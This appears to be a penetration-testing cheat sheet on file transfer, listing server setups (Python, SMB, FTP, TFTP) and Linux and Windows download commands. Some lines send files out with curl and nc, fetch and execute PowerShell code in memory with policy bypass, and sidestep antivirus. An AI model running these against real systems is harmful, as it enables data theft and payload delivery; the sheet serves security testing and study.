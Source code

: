 # General - File Transfer

### Server side

The following tools can be used to host files server side.

###### Python - Web Server

```python
python -m SimpleHTTPServer <PORT>
```

###### curl

```bash
# Needs the receiver to be listening
curl -F 'data=@<FILE>' http://<IP>:<PORT>
```

###### nc

```bash
# Needs the receiver to be listening
nc -w 3 <IP> <PORT> < <FILE>
Get-Content <FILE> | ./nc.exe -w 3 <IP> <PORT>
```

###### impacket-smbserver - SMB share

```bash
impacket-smbserver <SHARE_NAME> <SHARE_PATH>
impacket-smbserver <SHARE_NAME> `pwd`
```

###### Windows GUI shares

On Windows, the graphical interface can be used to share a specific folder over
the network. Sharing a folder requires Administrator or SYSTEM privileges.

Note that the final access permissions for a shared resource are determined by
considering both the NTFS permissions and the sharing protocol permissions, and
then applying the more restrictive permissions. Thus, it is possible to grant
"Everyone" full access permission when configuring the share permissions.

```
# Share permissions
Right click folder -> Properties -> Sharing -> Share -> Everyone

# NTFS permissions - Needs to be applied to the folder and its files
Right click folder -> Properties -> Security -> Edit -> Add
  -> From this location -> <DOMAIN>
  -> Enter the object names to select -> <USERNAME> (-> Check Names)
```

###### FTP

```
# pip install pyftpdlib
python -m pyftpdlib -w -p <PORT>
```

###### TFTP

```
# Metasploit server module
use auxiliary/server/tftp

# Unix daemon
mkdir <TFTPFOLDER>
atftpd --daemon --port <PORT> <TFTPFOLDER>
```

### Client side

The following tools can be used to download file from a server client side.  

File transfer is easier on Linux machines as wget, curl or netcat are often
packaged with the operating system distribution.  

On Windows machines, the process is usually not as straight forward.

###### wget

```bash
wget <URL>
wget http:/<IP>:<PORT>/<FILE>
wget -O <OUTPUT_FILE> http://<IP>:<PORT>t/<FILE>
wget -r --no-parent -nH --reject "index.html*" http://<IP>:<PORT>/<DIR>
```

###### curl

```bash
curl <URL> > <OUTPUT_FILE>
curl http://<IP>:<PORT>/<FILE> > <OUTPUT_FILE>
curl -O http://<IP>:<PORT>/<FILE>
```

###### netcat

```bash
nc -l -p <PORT> > out.file
nc -l -p <PORT> | tee out.file
```

###### fetch

The FreeBSD built-in fetch can be used to retrieve a file by URL:

```
fetch <URL>
fetch -o <OUTPUT_FILE> http://<IP>:<PORT>/<FILE>
```

###### Python

```python
python -c "from urllib import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', '<OUT.FILE>')"
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', 'out.file')"
```

###### Powershell

```powershell
Invoke-WebRequest -Uri <URL> -OutFile <FILE>
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>', '<FULLPATH\FILENAME>');

# Load in memory and execute
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>'); Invoke-ImportedCMD"
echo IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | powershell -nop -exec bypass -

# Connect to a SMB share
New-PSDrive -Name "LocalMountedFolder" -PSProvider "FileSystem" -Root "\\<IP>\<SHARE>"; cd LocalMountedFolder:
```

###### FTP

To download file interactively:

```
ftp -A <SERVERIP>
```

Paste the following commands into a remote Windows shell and download files over FTP non-interactively (replace <USERNAME> by anonymous if using anonymous login):

```
# Windows
echo open <IP> <PORT> > ftp.txt
echo USER <USERNAME> >> ftp.txt
echo PASS <PASSWORD> >> ftp.txt
echo bin >> ftp.txt
echo GET <FILENAME> >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

In case of AV errors while trying to download a binary, omit the exe extension.  

###### TFTP

TFTP is a simple protocol for transferring files, implemented on top of the UDP/IP
protocols. TFTP was designed to be small and easy to implement, and therefore it
lacks most of the advanced features offered by more robust file transfer protocols.
TFTP only reads and writes files from or to a remote server. It cannot list, delete,
or rename files or directories and it has no provisions for user authentication.  

Windows operating systems up to Windows XP and 2003 contain a TFTP
client, by default. In Windows 7, 2008, and above, this tool needs to be explicitly added,
during installation.

```
tftp -i <SERVERIP> GET <FILENAME>
```
